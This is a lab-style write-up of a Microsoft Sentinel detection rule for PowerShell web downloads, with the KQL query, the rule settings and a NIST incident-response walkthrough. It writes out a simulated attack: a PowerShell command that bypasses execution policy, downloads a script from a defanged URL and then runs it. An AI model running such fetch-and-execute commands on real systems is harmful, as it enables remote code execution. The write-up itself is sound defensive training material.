 # Project: Creating a Sentinel Detection Rule for Malicious Downloads

### 1. Project Objective

This project demonstrates the end-to-end process of creating a custom detection rule in Microsoft Sentinel and then working the resulting incident to completion. The goal was to design a query that detects when PowerShell's `Invoke-WebRequest` command is used to download remote files, a common tactic used by attackers for post-exploitation activities.

---

### 2. Detection Rule Creation & Configuration

#### The Detection Logic
A KQL (Kusto Query Language) query was designed to search the `DeviceProcessEvents` table for any command-line activity involving PowerShell and the `Invoke-WebRequest` cmdlet (or its common aliases `iwr` and `wget`).

**The KQL Query:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-06-06T04:49:00Z) .. datetime(2025-06-07T04:38:00Z)) //The times shown are for the integrety of the report, otherwise we would set this line to look data >= ago(24h)
| where (FileName contains "powershell.exe" or FileName contains "pwsh.exe") 
  and (ProcessCommandLine contains "Invoke-WebRequest" or ProcessCommandLine contains "iwr" or ProcessCommandLine contains "wget")
| project TimeGenerated, AccountName, DeviceName, FileName, InitiatingProcessCommandLine, ProcessCommandLine
| sort by TimeGenerated desc

```

#### Sentinel Analytics Rule Configuration
In Microsoft Sentinel, this KQL query was used to create a new Scheduled Analytics Rule with the following settings:

* **Query Scheduling:** Run query every 4 hours, looking up data from the last 24 hours.
* **Entity Mapping:** To enable automatic incident correlation and investigation features, the following entities were mapped from the query's output columns:
  
| Entity  | Identifier  | Value              |
| :------ | :---------- | :------------------|
| Account | Name        | AccountName        |
| Host    | HostName    | DeviceName         |
| Process | CommandLine | ProcessCommandLine |

### 3. Simulating the Attack & Triggering the Alert
To validate the rule, a command was executed on a test virtual machine to simulate an attacker downloading a payload. This command downloads the harmless EICAR test file and then executes it. Although the download is harmless the URI was defanged as a good practice.

```powershell
# Download the script
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'hxxps://raw[.]githubusercontent[.]com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar[.]ps1' -OutFile 'C:\programdata\eicar.ps1';

# Execute the script
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

---
### 4. Incident Response (Following NIST 800-61)
The simulation successfully triggered the "Z-PowerShell Suspicious Web Request" incident in Sentinel. The incident was triaged and worked to completion following the NIST Incident Response Lifecycle.

#### Detection and Analysis
The triggered alert showed that over a 24-hour period, 35 machines had downloaded suspicious scripts from a GitHub repository. The most notable scripts were:

* `portscan.ps1`
* `pwncrypt.ps1`
* `eicar.ps1`
* `exfiltratedata.ps1`

The malware analysis team provided a one-liner for each script's purpose:

* `exfiltratedata.ps1`: A script that compresses user data for theft and exfiltration.
* `portscan.ps1`: A reconnaissance script used to scan a network for open ports.
* `pwncrypt.ps1`: A ransomware script designed to encrypt a victim's files for extortion.
* `eicar.ps1`: A harmless test file to verify antivirus detection.

#### Containment, Eradication, and Recovery
* **Containment:** All 35 affected devices were immediately isolated using Microsoft Defender for Endpoint to prevent any further damage or lateral movement.
* **Eradication:** An antivirus scan was initiated on all isolated devices.
* **Recovery:** A plan was put in place with the IT team to reimage all affected machines to ensure they are restored to a known-good state.

#### Post-Incident Activities
The investigation revealed that the activity was likely triggered by a coordinated phishing campaign.

* **User Training:** Worked with management to facilitate a phishing training exercise, as several users reported clicking a suspicious email regarding bonuses.
* **Policy Hardening:** Began the implementation of a new security policy to restrict the use of PowerShell for all non-essential users, reducing the attack surface.
* **Case Closure:** The incident was officially closed in Sentinel as a True Positive.
